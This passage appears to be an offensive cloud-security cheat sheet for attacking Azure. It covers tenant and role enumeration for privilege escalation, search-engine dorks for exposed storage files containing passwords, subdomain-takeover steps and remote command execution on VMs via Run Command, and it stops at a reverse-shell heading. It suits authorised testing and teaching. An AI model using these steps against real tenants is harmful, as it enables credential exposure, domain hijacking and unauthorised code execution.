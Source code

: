 ```text
    PS> Get-AzSubscription
    PS> $context = Get-AzContext
    PS> $context.Name
    PS> $context.Account
• Enumerating the roles assigned to your user will help identify what permissions you might have on the subscription as well as who to target for escalation.
    PS> Get-AzRoleAssignment
• List out the users on the subscription. This is the equivalent of “net users /domain” in on-prem AD
    PS> Get-MSolUser -All
• The user you setup likely doesn’t have any resources currently associated with it, but these commands will help to understand the specific resources a user you gain access to has.
    PS> Get-AzResource
    PS> Get-AzResourceGroup
• There are many other functions.
• Use Get-Module to list out the other Az module groups
• To list out functions available within each module use the below command substituting the value of the “Name” parameter.
    PS> Get-Module -Name Az.Accounts | Select-Object -ExpandProperty ExportedCommands
    PS> Get-Module -Name MSOnline | Select-Object -ExpandProperty ExportedCommands
```

### **Azure Block Blobs\(S3 equivalent\) attacks**

```text
# Discovering with Google Dorks
site:*.blob.core.windows.net
site:*.blob.core.windows.net ext:xlsx | ext:csv "password"
# Discovering with Dns enumeration
python dnscan.py -d blob.core.windows.net -w subdomains-100.txt

# When you found one try with curl, an empty container respond with 400
```

### **Other Azure Services**

```text
# Azure App Services Subdomain Takeover
- For target example.com you found users.example.com
- Go https://users.galaxybutter.com and got an error
- dig CNAME users.galaxybutter.com and get an Azure App Services probably deprecated or removed
- Creat an App Service and point it to the missing CNAME
- Add a custom domain to the App Service
- Show custom content

# PoC from Forward DNS dataset
# This data is created by extracting domain names from a number of sources and then sending DNS queries for each domain.
https://opendata.rapid7.com/sonar.fdns_v2/
cat CNAME-DATASET-NAME | pigz -dc | grep -E "\.azurewebsites\.com"
cat CNAME-DATASET-NAME | pigz -dc | grep -E "\.s3\.amazonaws\.com"

# Azure Run Command
# Feature that allows you to execute commands without requiring SSH or SMB/RDP access to a machine. This is very similar to AWS SSM.
az login --use-device-code #Login
az group list #List groups
az vm list -g GROUP-NAME #List VMs inside group
#Linux VM
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "id"
#Windos VM
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunPowerShellScript --scripts "whoami"
# Linux Reverse Shell Azure Command
```